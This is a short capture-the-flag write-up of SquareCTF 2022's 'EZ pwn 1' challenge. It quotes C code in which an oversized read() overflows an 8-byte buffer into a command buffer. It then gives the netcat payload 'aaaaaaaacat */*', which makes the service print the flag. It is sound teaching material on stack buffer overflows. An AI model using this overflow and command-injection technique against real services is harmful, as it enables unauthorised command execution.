 # EZ pwn 1

**50 points**

Memory safety? Whats that?
Required Reading:
- https://en.wikipedia.org/wiki/Stack_buffer_overflow

`nc chals.2022.squarectf.com 4100`

*Given:* [ez-pwn-1](https://github.com/LeonGurin/SquareCTF-2022/blob/main/EZ%20pwn%201/ez-pwn-1), [source](https://github.com/LeonGurin/SquareCTF-2022/blob/main/EZ%20pwn%201/source)

___

After inspecting the code we notice:

```c
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
```

the `way_too_small_input_buf` has only 8 bytes while we can read up to 24 inside read.

That means that we can put our custom command inside the command buffer.

Netcatting inside, we firstly enter a valid response less than 8 bytes to see what items in the current directory are, we get:

```
ez-pwn-1  the_flag_is_in_here
```

cool, now we can inject our code.
Because the `the_flag_is_in_here` has too many letters we need to find another way.

My friend found a nice way which is to use recursive `cat` with the following command:

`cat */*`

so netcatting inside and entering:

`aaaaaaaacat */*`

we get the flag:

>flag{congrats_youve_exploited_a_memory_corruption_vulnerability}

